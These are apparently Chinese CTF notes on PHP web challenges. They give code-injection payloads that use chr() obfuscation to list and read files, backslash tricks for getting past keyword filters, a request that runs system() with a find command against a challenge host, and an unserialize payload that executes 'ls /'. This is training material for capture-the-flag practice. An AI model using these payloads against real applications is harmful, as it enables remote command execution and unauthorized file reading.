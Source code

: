     ? num=1;var_dump(scandir(chr(47))) // scandir(/)
    ? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))) # flagg

1. \指命名空间, 有的版本可用。Linux下可以添加 \ 来过, 比如 \system = system, ca\t = cat
```
POST
http://d0ee41d4-e9af-43bb-99e7-e3adcf19757d.node3.buuoj.cn/index.php?func=\system&p=find / -name flag*
```

2. 先序列化 echo serialize($a), 然后提交反序列化的内容

``` php
<?php
class Test {
    var $p = 'ls /';
    var $func = 'system';
}
$a = new Test;
echo serialize($a);
?>
// O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
// 比如func和p, 提交 func=unserialize&p=O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
```


## 查找flag的命令

`cat /*/flag; cat/*/*/flag; cat/*/*/*/flag`

`grep -r flag /`

## 没有写入权限 / file_put_contents / gopherus
phpinfo要能看到 ftp、php-fpm组件才可以用FTP打。
[如何用 FTP 被动模式打穿内网](https://mp.weixin.qq.com/s/J5FJdg294aBxchfkrCA5Lw)

`_writeup_Web.md`
```
# 2021陇原战疫
## eaaasyphp
```
## 死亡die/exit绕过

死亡die/exit绕过 
https://github.com/wm-team/WMCTF2020-WriteUp/blob/master/WMCTF%202020%E5%AE%98%E6%96%B9WriteUp.md
https://cyc1e183.github.io/2020/04/03/%E5%85%B3%E4%BA%8Efile_put_contents%E7%9A%84%E4%B8%80%E4%BA%9B%E5%B0%8F%E6%B5%8B%E8%AF%95/

# 工具/环境准备
Firefox + 插件 proxy, hackbar

Chrome + 插件 proxyomega + hackbar

